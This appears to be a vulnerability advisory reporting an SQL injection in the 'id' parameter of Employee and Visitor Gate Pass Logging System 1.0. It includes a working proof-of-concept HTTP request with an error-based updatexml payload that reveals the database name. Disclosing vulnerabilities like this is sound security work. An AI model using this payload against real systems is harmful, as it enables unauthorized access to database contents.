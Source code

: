 ## Affected version: 
Employee and Visitor Gate Pass Logging System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/admin/?page=employee/manage_employee&id=2

## Description:
Employee and Visitor Gate Pass Logging System 1.0 is vulnerable to unrestricted SQL injection attacks via /employee_gatepass/admin/?page=employee/manage_employee, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /employee_gatepass/admin/?page=employee/manage_employee&id=2%27%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

```

Get the database name through error injection
<img width="1709" alt="image" src="https://github.com/user-attachments/assets/627e3a6d-bd05-4da9-9c10-afc89c48ef67">


Get the database name: employee_gatepass_db
## code analysis:

The id parameter in Master.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.
<img width="1305" alt="image" src="https://github.com/user-attachments/assets/f41ae919-97be-4f23-bff7-631221b12d04">




 
